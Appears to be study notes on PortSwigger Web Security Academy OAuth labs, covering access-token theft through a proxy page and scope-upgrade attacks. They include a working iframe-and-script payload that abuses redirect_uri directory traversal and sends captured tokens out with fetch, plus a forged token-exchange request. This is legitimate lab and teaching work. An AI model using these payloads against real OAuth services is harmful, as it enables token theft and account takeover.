 `document.location.hash` here is used for checking if the uri contains `access_token`
i.e. when redirecting back from oauth service, oauth service will attach `#access_token=` in the url:
```
HTTP/2 302 Found
Location: https://0a7e005f0376bcf1807721b000fb00dd.web-security-academy.net/oauth-callback#access_token=ImLOukbIxMWIdzBOLSzy0V9L4EKnz5bwwO98pVLprKc&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

Therefore we can check logs of our own external server and find that `access_token` there.

### Lab: Stealing OAuth access tokens via a proxy page
`redirect_uri` is vulnerable to directory traversal 
TODO: this lab does not work properly: after deliver exploit to victim, victim does not always makes a request to the exploit server

BTW: TODO: figure out why you're getting an error inside of an iframe

example of a solution:
```bash
<iframe src="https://oauth-0aa900560362c79580a2d84c02cb00ec.oauth-server.net/auth?client_id=uje8kqatmq881p5y2mjp7&redirect_uri=https://0ae300c703aac7548029daaf000a00d1.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1382260837&scope=openid%20profile%20email"></iframe>

<script>
    window.addEventListener('message', function(e) {
        const data = encodeURIComponent(e.data.data);
        fetch("/" + data)
    }, false)
</script>
```


## Flawed scope validation
In any OAuth flow, the user must approve the requested access based on the scope defined in the authorization request. The resulting token allows the client application to access only the scope that was approved by the user. But in some cases, it may be possible for an attacker to "upgrade" an access token (either stolen or obtained using a malicious client application) with extra permissions due to flawed validation by the OAuth service. The process for doing this depends on the grant type.

### Scope upgrade: authorization code flow
With the authorization code grant type, the user's data is requested and sent via secure server-to-server communication, which a third-party attacker is typically not able to manipulate directly. However, it may still be possible to achieve the same result by registering their own client application with the OAuth service.

For example, let's say the attacker's malicious client application initially requested access to the user's email address using the openid email scope. After the user approves this request, the malicious client application receives an authorization code. As the attacker controls their client application, they can add another scope parameter to the code/token exchange request containing the additional profile scope:
```
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```
If the server does not validate this against the scope from the initial authorization request, it will sometimes generate an access token using the new scope and send this to the attacker's client application:
```
{
    "access_token": "z0y9x8w7v6u5",
```